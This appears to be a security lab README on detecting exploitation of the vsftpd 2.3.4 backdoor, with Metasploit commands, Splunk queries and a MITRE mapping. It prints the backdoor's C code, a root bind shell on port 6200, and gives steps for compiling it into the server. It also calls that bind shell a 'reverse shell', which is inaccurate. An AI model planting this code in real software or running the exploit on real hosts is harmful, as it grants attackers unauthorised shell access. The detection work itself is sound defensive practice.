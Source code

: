 
# Detection Use Case: Exploiting vsftpd 2.3.4 via Metasploit

## 🧪 Scenario Description
An attacker exploits a known backdoor in vsftpd version 2.3.4 using the Metasploit Framework. The vsftpd 2.3.4 vulnerability allows an attacker to obtain a reverse shell by connecting with a specially crafted username.

## 🎯 Objective
Detect the exploitation attempt and subsequent reverse shell activity, especially focusing on unexpected shell access initiated through FTP service ports (usually 21) or reverse shell callbacks.

## 🛠️ Tools & Setup
- **Offensive Tool**: Metasploit
  - Module: `exploit/unix/ftp/vsftpd_234_backdoor`
- **Detection Tools**: 
  - Netcat listener
  - SIEM (e.g., Splunk, ELK, Wazuh)
- **Lab Environment**:
  - Vulnerable target with vsftpd 2.3.4
  - Attacker system with Metasploit installed
  - SIEM monitoring on network and host events

## ⚙️ Steps to Set Up the Backdoored vsftpd 2.3.4

### Clone the Repository
```bash
git clone https://github.com/DoctorKisow/vsftpd-2.3.4.git
cd vsftpd-2.3.4
```
![Screenshot 2025-06-01 233707](https://github.com/user-attachments/assets/bdc14b23-63ab-43a5-b363-349aacc2ceed)


### Install Dependencies
```bash
sudo apt-get update
sudo apt-get install build-essential libpam0g-dev
```
![Screenshot 2025-06-01 233744](https://github.com/user-attachments/assets/94a0df4b-fef2-41db-9608-7762820be8ee)


### Build the vsftpd Binary
```bash
chmod +x vsf_findlibs.sh
nano Makefile
```
![Screenshot 2025-06-01 233811](https://github.com/user-attachments/assets/b0e8186b-c578-45c1-b101-4c3d57284e0b)

In the `Makefile`, add `-lpam` and `-lcap` to the `LIBS` line, then save and exit.

![Screenshot 2025-06-01 233930](https://github.com/user-attachments/assets/984e2356-49e0-4dc1-8030-bb46af1d5b25)

In **str.c** add `vsf_sysutil_extra()` function and remove this function from **sysdeputil.c** : 
```bash
int
vsf_sysutil_extra(void)
{
  int fd, rfd;
  struct sockaddr_in sa;
  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
  exit(1);
  memset(&sa, 0, sizeof(sa));
  sa.sin_family = AF_INET;
  sa.sin_port = htons(6200);
  sa.sin_addr.s_addr = INADDR_ANY;
  if((bind(fd,(struct sockaddr *)&sa,
  sizeof(struct sockaddr))) < 0) exit(1);
  if((listen(fd, 100)) == -1) exit(1);
  for(;;)
  {
    rfd = accept(fd, 0, 0);
    close(0); close(1); close(2);
    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
    execl("/bin/sh","sh",(char *)0);
  }
}
```

```bash
make
```
![Screenshot 2025-06-01 234033](https://github.com/user-attachments/assets/0165fddb-9df2-4525-95d9-fc23957580a5)


### Install the vsftpd Binary
```bash
sudo install -v -m 755 vsftpd /usr/sbin/vsftpd
sudo install -v -m 644 vsftpd.conf /etc/vsftpd.conf
```
![Screenshot 2025-06-01 234059](https://github.com/user-attachments/assets/c6445b6b-64b3-4061-ab3c-badf74f7bfd3)


### Start the vsftpd Service
```bash
sudo /usr/sbin/vsftpd /etc/vsftpd.conf
```
![Screenshot 2025-06-01 234133](https://github.com/user-attachments/assets/e7206e00-71ef-43cc-bdd2-6ef185339e3f)

**Note: Also check if proper user for ftp service exists or not**

## 📡 Detection Logic
Monitor for:
- Connection attempts to FTP (port 21) with suspicious usernames (e.g., those ending with `:)`).
- Unexpected outbound connections from the target system to uncommon external IPs/ports, indicating a reverse shell.
- New bash processes spawned without user interaction.
- Netcat (nc), bash, or sh running with suspicious parent processes like vsftpd.

## 🧪 Metasploit Usage
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target-ip>
run
```
![Screenshot 2025-06-01 233330](https://github.com/user-attachments/assets/1eb6ef20-db3a-446b-9953-68cd9d31c7c6)
---
![Screenshot 2025-06-01 233405](https://github.com/user-attachments/assets/be2849bb-e834-459f-9e1a-4f42bb9f05ee)


## 🔍 Detection Queries (Sample Splunk SPL)
```spl
  index="linux_logs"  
| rex field=_raw "<Data Name=\"SourceIp\">(?<SourceIp>[^<]+)</Data>"
| rex field=_raw "<Data Name=\"DestinationIp\">(?<DestinationIp>[^<]+)</Data>"
| rex field=_raw "<Data Name=\"DestinationPort\">(?<DestinationPort>\d+)</Data>"
| rex field=_raw "<Data Name=\"Image\">(?<Image>[^\<]+)</Data>"
| rex field=_raw "<Data Name=\"User\">(?<User>[^\<]+)</Data>"
| rex field=_raw "<Data Name=\"UtcTime\">(?<UtcTime>[^\<]+)</Data>"
| eval _time=strptime(UtcTime, "%Y-%m-%d %H:%M:%S.%3N")
| where DestinationPort="6200" OR User=":)"
| stats count min(_time) as first_seen max(_time) as last_seen by SourceIp DestinationIp DestinationPort Image User
| eval first_seen=strftime(first_seen, "%Y-%m-%d %H:%M:%S")
| eval last_seen=strftime(last_seen, "%Y-%m-%d %H:%M:%S")
| sort first_seen
```

## 📁 Log Fields to Monitor
| Field        | Description                                      |
|--------------|--------------------------------------------------|
| _time        | Timestamp of the event                           |
| host         | Affected system hostname                         |
| CommandLine  | Command used to spawn reverse shell              |
| ParentImage  | Process that initiated the command (e.g., vsftpd)|

## ⚠️ Alert
**Trigger Condition**: Reverse shell initiated by the vsftpd process or any suspicious connection after vsftpd service interaction.

## 🧪 Sample Event
```text
SourceIp	DestinationIp	DestinationPort	Image	User	count	first_seen	last_seen
192.168.1.11	192.168.1.3	6200	/usr/bin/ruby3.3	root	1	2025-06-01 18:02:05	2025-06-01 18:02:05
```

## 🕵️ Analyst Notes / Recommendations
- Verify if vsftpd version is vulnerable and exposed.
- Validate if the shell access was authorized or unexpected.
- Consider isolating the system and performing forensics.
- Patch or disable vsftpd 2.3.4 immediately.

## 🔗 MITRE ATT&CK Mapping
| Technique ID  | Technique Name                | Description                                           |
|---------------|-------------------------------|-------------------------------------------------------|
| T1190         | Exploit Public-Facing Application | Exploiting vulnerable vsftpd service                |
| T1059.004     | Command and Scripting Interpreter: Unix Shell | Use of bash for reverse shell access         |
| T1071.001     | Application Layer Protocol: Web | Reverse shell callback using TCP (bash/nc)           |
| T1049         | System Network Connections Discovery | Used for post-exploitation lateral movement planning |

---

✅ **Status**: Tested in a lab setup with Splunk and Metasploit. Reverse shell detection confirmed using command-line logs and parent process analysis.
